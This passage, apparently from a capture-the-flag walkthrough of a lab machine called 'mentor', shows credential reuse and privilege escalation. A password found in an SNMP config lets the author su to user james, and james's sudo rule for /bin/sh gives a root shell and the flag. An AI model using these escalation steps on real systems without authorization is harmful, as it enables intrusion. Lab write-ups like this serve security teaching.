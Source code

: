     view AllView included .1
    access AllGroup "" any noauth exact AllView none none



There's a password in there for a bootstrap SNMPv3 user,
"SuperSecurePassword123\_\_".

### su / sudo

#### Shell as james

This password doesn't work for root:



    svc@mentor:/$ su -
    Password: 
    su: Authentication failure



But it does work for james:



    svc@mentor:/$ su james -
    Password: 
    james@mentor:/$ 



#### Shell as root

james can run `/bin/sh` as root:



    james@mentor:/$ sudo -l
    [sudo] password for james: 
    Matching Defaults entries for james on mentor:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User james may run the following commands on mentor:
        (ALL) /bin/sh



It does need a password, but I have it. Running gives a root shell:



    james@mentor:/$ sudo /bin/sh
    # bash
    root@mentor:/#



And I can grab the flag:



    root@mentor:/# cat root/root.txt
    e69f189c************************







